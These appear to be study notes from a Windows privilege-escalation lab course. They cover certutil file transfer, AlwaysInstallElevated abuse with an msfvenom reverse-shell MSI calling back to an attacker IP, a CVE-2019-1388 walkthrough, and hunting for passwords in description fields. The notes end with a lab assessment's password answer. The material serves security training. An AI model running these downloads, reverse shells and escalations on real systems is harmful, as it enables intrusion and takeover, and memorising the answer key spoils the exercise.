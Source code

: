 # Miscellaneous Techniques

## Living Off The Land Binaries and Scripts (LOLBAS)

{% embed url="https://lolbas-project.github.io" %}
binaries, scripts, and libraries that can be used for "living off the land" techniques on Windows systems
{% endembed %}

### **Certutil**

**Transferring File with Certutil**

```powershell-session
PS C:\htb> certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

**Encoding File with Certutil**

```cmd-session
C:\htb> certutil -encode file1 encodedfile
```

**Decoding File with Certutil**

```cmd-session
C:\htb> certutil -decode encodedfile file2
```

## Always Install Elevated

This setting can be set via Local Group Policy by setting `Always install with elevated privileges` to `Enabled` under the following paths.

* `Computer Configuration\Administrative Templates\Windows Components\Windows Installer`
* `User Configuration\Administrative Templates\Windows Components\Windows Installer`

![Group Policy Editor](https://academy.hackthebox.com/storage/modules/67/alwaysinstall.png)

**Enumerating Always Install Elevated Settings**

```powershell-session
PS C:\htb> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

```powershell-session
PS C:\htb> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

`AlwaysInstallElevated` key exists, so the policy is indeed enabled on the target system.

**Generating MSI Package**

```shell-session
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```

**Executing MSI Package**

```cmd-session
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

**Catching Shell**

```shell-session
nc -lnvp 9443

. . .
C:\Windows\system32>whoami

whoami
nt authority\system
```

## CVE-2019-1388

privilege escalation vulnerability in the Windows Certificate Dialog

Let's run through the vulnerability in practice.

First right click on the `hhupd.exe` executable and select `Run as administrator`

![UAC](https://academy.hackthebox.com/storage/modules/67/hhupd.png)

Next, click on `Show information about the publisher's certificate` to open the certificate dialog. Here we can see that the `SpcSpAgencyInfo` field is populated in the Details tab.

![SpcSpAgencyInfo](https://academy.hackthebox.com/storage/modules/67/hhupd\_details.png)

Next, we go back to the General tab and see that the `Issued by` field is populated with a hyperlink. Click on it and then click `OK`, and the certificate dialog will close, and a browser window will launch.

![Issued by](https://academy.hackthebox.com/storage/modules/67/hhupd\_ok.png)

If we open `Task Manager`, we will see that the browser instance was launched as SYSTEM.

![The browser is running as SYSTEM user](https://academy.hackthebox.com/storage/modules/67/chrome\_system.png)

Next, we can right-click anywhere on the web page and choose `View page source`. Once the page source opens in another tab, right-click again and select `Save as`, and a `Save As` dialog box will open.

![Save the page source](https://academy.hackthebox.com/storage/modules/67/hhupd\_saveas.png)

At this point, we can launch any program we would like as SYSTEM. Type `c:\windows\system32\cmd.exe` in the file path and hit enter. If all goes to plan, we will have a cmd.exe instance running as SYSTEM.

![Launch CMD from saveas.](https://academy.hackthebox.com/storage/modules/67/hhupd\_cmd.png)

Scheduled Tasks

**Enumerating Scheduled Tasks with cmd**

```cmd-session
C:\htb>  schtasks /query /fo LIST /v
```

**Enumerating Scheduled Tasks with PowerShell**

```powershell-session
PS C:\htb> Get-ScheduledTask | select TaskName,State
```

> We cannot list out scheduled tasks created by other users

## User/Computer Description Field

**Checking Local User Description Field**

in Active Directory, it is possible for a sysadmin to store account details (such as a password) in a computer or user's account description field

```powershell-session
PS C:\htb> Get-LocalUser
 
Name            Enabled Description
----            ------- -----------
Administrator   True    Built-in account for administering the computer/domain
DefaultAccount  False   A user account managed by the system.
Guest           False   Built-in account for guest access to the computer/domain
helpdesk        True
htb-student     True
htb-student_adm True
jordan          True
logger          True
sarah           True
sccm_svc        True
secsvc          True    Network scanner - do not change password
sql_dev         True
```

**Enumerating Computer Description Field with Get-WmiObject Cmdlet**

```powershell-session
PS C:\htb> Get-WmiObject -Class Win32_OperatingSystem | select Description
 
Description
-----------
The most vulnerable box ever!
```

## Mount VHDX/VMDK

**Mount VMDK on Linux**

```shell-session
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
```

**Mount VHD/VHDX on Linux**

```shell-session
guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```

In Windows, we can right-click on the file and choose `Mount`, or use the `Disk Management` utility to mount a `.vhd` or `.vhdx` file.

## Assessment

Using the techniques in this section, find the cleartext password for an account on the target host.

<figure><img src="../../../.gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

**!QAZXSW@3edc**



